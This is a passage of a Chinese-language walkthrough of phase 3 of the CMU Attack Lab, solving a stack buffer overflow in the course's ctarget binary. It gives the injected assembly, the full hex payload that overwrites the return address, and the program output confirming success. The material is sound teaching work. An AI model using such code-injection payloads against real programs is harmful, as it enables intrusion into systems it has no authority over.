 ```c
}
```

因此我们需要做的事情是：

1. 将 cookie 字符串转换为 16 进制
2. 将字符串写入栈空间，并将该地址送到 `%rdi` 中
3. 将 `touch3` 首地址压栈最后 `ret`

此外，从提示中：


> When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.

可知，不能将 cookie 字符串存储在 `getbuf` 的栈空间中，因此我们需要将其存储在其调用者 `test` 的栈空间中。

先通过 `man ascii` 查询 cookie 字符串的十六进制表示：

```
35 39 62 39 39 37 66 61 00
```

再根据上面栈帧的结构，计算出字符串保存的位置应该为 `0x5561dca8`，得到：

```assembly
movq  $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

剩余步骤与 phase 2 类似，得到所求字符串为：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```

运行结果：

```sh
$ ./hex2raw < phase3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
